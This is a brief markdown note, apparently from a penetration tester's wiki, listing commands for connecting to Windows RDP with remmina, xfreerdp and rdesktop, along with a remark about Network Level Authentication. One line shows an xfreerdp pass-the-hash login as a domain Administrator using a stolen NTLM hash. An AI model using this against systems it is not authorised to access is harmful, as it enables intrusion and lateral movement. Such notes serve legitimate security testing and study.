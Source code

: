 # Remote Desktop Protocol (RDP) 

Beware - On Windows 11, [Network Level Authentication (NLA)](https://en.wikipedia.org/wiki/Network_Level_Authentication) is enabled by default for all RDP connections.

```bash
remmina
xfreerdp /u:$username /p:$Password /v:$IP
rdesktop $ip
```

For non domain-joined machines `rdesktop` won't connect; use `xfreerdp` instead, which supports NLA for non domain-joined machines. `xfreerdp` allows for  [[Pass-The-Hash]]:
```bash
xfreerdp /v:$IP /u:DOMAIN\\Administrator /pth:$ntml
```


## References

[Wikipedia Network Level Authentication (NLA)](https://en.wikipedia.org/wiki/Network_Level_Authentication)